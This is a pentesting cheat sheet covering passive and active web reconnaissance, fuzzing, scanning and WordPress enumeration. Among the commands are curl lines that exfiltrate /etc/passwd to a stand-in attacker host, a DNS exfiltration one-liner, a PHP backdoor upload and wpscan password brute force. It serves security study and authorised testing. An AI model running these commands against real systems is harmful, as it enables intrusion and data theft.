

<Callout type="info" title="Concept Overview">
A comprehensive guide focused entirely on active and passive web application reconnaissance, enumeration, vulnerability scanning, and manual HTTP techniques. 
</Callout>



---

## Passive Reconnaissance

<Tabs>
  <Tab title="Google Dorking">
    Google Dorking uses advanced search operators to discover hidden or sensitive information indexed by search engines without directly interacting with the target.
    
    **Operators:**
    * `site:example.com`
    * `site:*.example.com`
    * `site:example.com inurl:admin`
    * `site:example.com filetype:pdf`
    * `intitle:"index of"`
    * `cache:example.com`

    <CardGroup cols={1}>
      <Card title="Google Hacking Database (GHDB)" href="https://www.exploit-db.com/google-hacking-database" icon="external-link">
        The GHDB maintained by Offensive Security contains thousands of useful dorks for discovering exposed data.
      </Card>
    </CardGroup>
  </Tab>

  <Tab title="Tech Fingerprinting & WAF">
    Identify the underlying technologies and Web Application Firewalls.
    ```bash
    whatweb example.com
    wafw00f -a example.com
    ```
  </Tab>

  <Tab title="Website Cloning & Visual Recon">
    Download a local copy of the website or capture screenshots of multiple web apps for later review.
    ```bash
    httrack
    eyewitness --web -f domains.txt -d /home/usr/path
    ```
  </Tab>

  <Tab title="Passive Subdomain Enum">
    Gather subdomains without sending direct requests to the target's infrastructure.
    <AccordionGroup>
      <Accordion title="Amass / TheHarvester / Sublist3r">
        ```bash
        # Amass (Passive)
        amass enum --passive -d example.com
        amass enum --passive -d example.com -src -dir /user/home/path

        # TheHarvester (Emails, subdomains, hosts)
        theHarvester -d example.com -b google,linkedin,dnsdumpster,yahoo,duckduckgo,crtsh

        # Sublist3r (Passive)
        sublist3r -d example.com
        sublist3r -d example.com -e google
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>

  <Tab title="Passive DNS & WHOIS">
    Use online databases and basic CLI tools to gather registration and historical DNS data.
    ```bash
    whois example.com
    host example.com
    dnsrecon -d example.com
    ```
    <CardGroup cols={3}>
      <Card title="Netcraft" href="https://www.netcraft.com" icon="globe">Internet research and data mining.</Card>
      <Card title="WHO.com" href="https://www.whois.com" icon="globe">Domain registration lookup.</Card>
      <Card title="DNSDumpster" href="https://dnsdumpster.com" icon="globe">Free domain research and mapping tool.</Card>
    </CardGroup>
  </Tab>
</Tabs>

---

## Active Reconnaissance

<Tabs>
  <Tab title="Manual HTTP (`curl`)">
    Manually interact with the web server to test allowed HTTP methods, headers, and potential injection points.
    <AccordionGroup>
      <Accordion title="Basic Methods">
        ```bash
        curl http://example.com -v 
        curl -v -X OPTIONS http://example.com
        curl -v -X POST http://example.com -d "payload"
        curl -v -I http://example.com
        ```
      </Accordion>
      <Accordion title="File Upload & Delete">
        ```bash
        curl -v http://example.com/upload --upload-file /usr/share/webshell/php/backdoor.php
        curl -X DELETE http://example.com/upload/backdoor.php 
        ```
      </Accordion>
      <Accordion title="Modify Headers">
        ```bash
        curl http://example.com -H "User-Agent: Mozila" -H "Host: www.google.com" -d "BadPayload"
        ```
      </Accordion>
      <Accordion title="Routing through Proxy (Tor/Burp)">
        ```bash
        curl --socks5-hostname 127.0.0.1:9050 https://ifconfig.me
        curl -x 127.0.0.1:9050 https://ifconfig.me
        ```
      </Accordion>
      <Accordion title="HTTP Exfiltration">
        ```bash
        curl AttackerWebserver.com -d "$(cat /etc/passwd | base64)"
        curl AttackerWebserver.com --data-binary @/etc/passwd
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>

  <Tab title="`robots.txt` & `sitemap.xml`">
    Check these files to discover hidden directories and pages that the site owner doesn't want to be indexed.
    <Callout type="info" title="Robots.txt">
    Location: `https://example.com/robots.txt`
    ```text
    User-agent: *
    Disallow: /admin/
    Disallow: /backup/
    Allow: /public/
    Sitemap: https://example.com/sitemap.xml
    ```
    </Callout>
    <Callout type="tip" title="Sitemap.xml">
    Lists valid URLs for search engines. Check for sitemap indexes.
    `https://example.com/sitemap.xml` or `https://example.com/sitemap_index.xml`
    </Callout>
  </Tab>

  <Tab title="Directory & File Enum (Dirb/Gobuster)">
    Brute-force hidden directories and files using wordlists.
    <AccordionGroup>
      <Accordion title="Dirb">
        ```bash
        dirb https://example.com
        dirb https://example.com /usr/share/metasploit-framework/data/wordlists/directory.txt
        dirb https://example.com/ -X .txt
        ```
      </Accordion>
      <Accordion title="Gobuster">
        ```bash
        gobuster dir -u https://example.com -w /usr/share/wordlists/dirb/common.txt
        gobuster dir -u https://example.com -w /usr/share/seclists/Discovery/Web-Content/CMS/wordpress.fuzz.txt -b '404'
        gobuster dir -u https://example.com -w /usr/share/wordlists/dirb/common.txt -b 404,403 -x .php,.txt,.xml -r
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>

  <Tab title="FFUF (Fuzz Faster U Fool)">
    A highly versatile and fast web fuzzer written in Go, used for discovering hidden directories, files, parameters, and brute-forcing credentials.
    <AccordionGroup>
      <Accordion title="Basic Directory & File Fuzzing">
        ```bash
        # Fuzzing for directory or file
        ffuf -w wordlist -u https://site.com/FUZZ

        # Fuzzing for specific extensions (e.g., .zip files)
        ffuf -w wordlist -u https://site.com/FUZZ -e .zip
        ```
      </Accordion>
      <Accordion title="Status Code Filtering & Matching">
        ```bash
        # Fuzzing + filtering out 403 from the result
        ffuf -w wordlist -u https://site.com/FUZZ -fc 403

        # Fuzzing + matching for specific status codes
        ffuf -w wordlist -u http://site.com/FUZZ -mc 200,204,301,302,307,401,403,405,500,404
        ```
      </Accordion>
      <Accordion title="Fuzzing with Headers & Cookies">
        ```bash
        # Fuzzing with a specific Cookie header
        ffuf -w wordlist -u https://site.com/FUZZ -H "Cookie: some_cookie"

        # Fuzzing the value of a custom header
        ffuf -w wordlist -u https://site.com/ -H "header: FUZZ"
        ```
      </Accordion>
      <Accordion title="API & JSON Payload Fuzzing">
        ```bash
        # Using multiple wordlists for user and pass fields in a JSON body
        ffuf -w wordlist:UU, wordlist:PP -u http://site.com/api/v1/auth -H "Content-Type: application/json" -d '{"user": "UU", "pass": "PP"}'
        ```
      </Accordion>
      <Accordion title="Advanced Techniques">
        ```bash
        # Fetch wordlist via curl on the fly and filter out specific response sizes (-fs)
        ffuf -w <(curl -s https://raw.githubusercontent.com/wordlistexample.txt) -u https://victeam.com/admin/FUZZ -c -mc all -fs 276,279

        # Variable fuzzing in URL path
        ffuf -w wordlist:variable -u https://site.com/variable.php -mc all -fc 404 -c
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>

  <Tab title="Active Subdomain Enum">
    <AccordionGroup>
      <Accordion title="Sublist3r / Fierce / Amass">
        ```bash
        # Sublist3r (Active search)
        sublist3r -d example.com

        # Fierce (Subdomain brute-forcing)
        fierce --domain example.com --subdomain-file /usr/share/seclist/DNS/fierce-hostlist.txt

        # Amass (Active/Brute)
        amass enum -d example.com -src -ip -brute -dir /user/home/path
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>

  <Tab title="DNS Zone Transfers">
    Attempt to initiate a full zone transfer to dump all DNS records.
    <AccordionGroup>
      <Accordion title="AXFR Commands">
        ```bash
        # dnsenum
        dnsenum zonetransfer.me

        # fierce
        fierce -dns zonetransfer.me 

        # dig (Manual AXFR)
        dig -axfr <@DNSServer> <Domain>
        dig -axfr @nsztm1.digi.ninja zonetransfer.me

        # DNS Exfiltration trick
        id | xxd -ps | while read li; do ping -c 1 $li.example.com ;done
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>
</Tabs>

---

## Automated Vulnerability Scanners

<Tabs>
  <Tab title="Nmap NSE (HTTP)">
    Use Nmap's scripting engine to enumerate web services and detect WAFs.
    ```bash
    nmap -sV -p 443,80 <IP>

    # Find relevant scripts
    ls /usr/share/nmap/scripts | grep -e "http-"
    ls /usr/share/nmap/scripts | grep -e "apache"

    # Run specific enumeration scripts
    nmap -sV -p 80,443 --script http-enum <IP> 
    ```
  </Tab>
  <Tab title="Metasploit (MSF)">
    Use Metasploit auxiliary modules for HTTP version detection.
    ```bash
    msfconsole
    search auxiliary/scanner/http/http_version
    use 0
    show options
    set RHOST <IP>
    set RPORT 80
    run -j
    ```
  </Tab>
  <Tab title="Nikto">
    Scan for dangerous files and outdated server software.
    ```bash
    nikto -h https://example.com 
    nikto -h https://example.com -Format htm -o example.com.html
    ```
  </Tab>
</Tabs>

---

## WordPress Pentesting

<Tabs>
  <Tab title="Manual Enumeration">
    Understand the core structure and default endpoints of a WordPress application.
    <AccordionGroup>
      <Accordion title="Authentication & Key Directories">
        **Authentication Endpoints:**
        * `/wp-login.php` (Often changed to `/login.php` for security)
        * `/wp-admin/login.php`
        * `/wp-admin/wp-login.php`
        * `/xmlrpc.php` (XML-RPC protocol, often replaced by WP REST API but still dangerous)

        **Key Directories:**
        * `/wp-content` (Primary directory for plugins and themes)
        * `/wp-content/uploads/` (Uploaded files, prone to directory listing)
        * `/wp-config.php` (Contains database credentials)
      </Accordion>
      <Accordion title="Version Discovery & User Enum">
        **Version Discovery:**
        * Read HTML Source Header
        * `example.com/readme.html`
        * `example.com/wp-login.php`
        * `example.com/wp-admin`
        * `example.com/xmlrpc.php`
        * `example.com/wp-json`

        **User Enumeration:**
        ```bash
        curl -s -I -X GET "https://example.com/?author=1"
        curl "https://example.com/wp-json/wp/v2/users" 
        curl -s example.com/wp-json/wp/v2/users | jq -r ".[].slug"
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>

  <Tab title="WPScan (Automated)">
    The primary tool for scanning WordPress installations.
    <AccordionGroup>
      <Accordion title="Basic Scan">
        ```bash
        wpscan --url https://example.com/login.php
        ```
      </Accordion>
      <Accordion title="Plugin Enumeration">
        ```bash
        wpscan --url https://example.com/login.php --enumerate -p --plugins-detection aggressive
        # With API token for vulnerability database access:
        wpscan --url https://example.com/login.php --enumerate -p --plugins-detection aggressive --api-token jfhidngphtcghiwfjg34Hpfds...
        ```
      </Accordion>
      <Accordion title="User Enumeration">
        ```bash
        wpscan --url https://example.com --enumerate u
        ```
      </Accordion>
      <Accordion title="Password Brute Force">
        ```bash
        wpscan --url https://example.com -U Admin -P /usr/share/wordlists/rockyou.txt
        ```
      </Accordion>
    </AccordionGroup>
  </Tab>
</Tabs>
